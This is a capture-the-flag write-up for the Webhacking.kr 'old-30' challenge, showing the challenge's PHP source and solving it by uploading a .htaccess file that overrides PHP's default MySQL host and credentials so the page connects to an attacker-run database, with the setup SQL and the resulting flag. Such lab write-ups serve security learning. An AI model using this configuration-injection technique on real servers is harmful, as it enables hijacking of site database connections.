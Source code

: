 # Webhacking old-30 Solution

Here we can see it tries to connect to a mySQL server, but doesn't supply parameters to the `mysqli_connect` function:

```php
<?php
  if($_GET['view_source']) highlight_file(__FILE__);
  $db = mysqli_connect() or die();
  mysqli_select_db($db,"chall30") or die();
  $result = mysqli_fetch_array(mysqli_query($db,"select flag from chall30_answer")) or die();
  if($result[0]){
    include "/flag";
  }
?>
```

## Configuration Injection

So, according to [default config files location](https://www.php.net/manual/en/configuration.changes.modes.php), so, we can upload our own `.htaccess` file, and there set the default mySQL server.

Our `.htaccess` file, fill the fields with your credentials:
```
php_value mysqli.default_port "...."
php_value mysqli.default_host "...."
php_value mysqli.default_user "...."
php_value mysqli.default_pw "...."
```

## Setting our MySQL server

I used this free website [Free My SQL server hosting](https://console.aiven.io/), after creating my free service, i connected to my SQL server:
`mysql --user username --password=password --host yoursubdomain.aivencloud.com --port ????? defaultdb`

Then, in the command line i ran those commands:

```
Create DATABASE chall30;
use chall30;

Create TABLE chall30_answer (flag VARCHAR(30) PRIMARY KEY);
Insert into chall30_answer (flag) VALUES ('hello world!');
select * from chall30_answer;   ### checking

### changing from "caching_sha2_password" to "mysql_native_password"

use mysql
ALTER USER 'username'@'%' IDENTIFIED WITH mysql_native_password BY 'password';
select user,plugin from user;   ### checking
```

![FLAG](./images/old-30.png)

**Flag:** ***`FLAG{uhoh-db-connection-hijacking?}`*** 


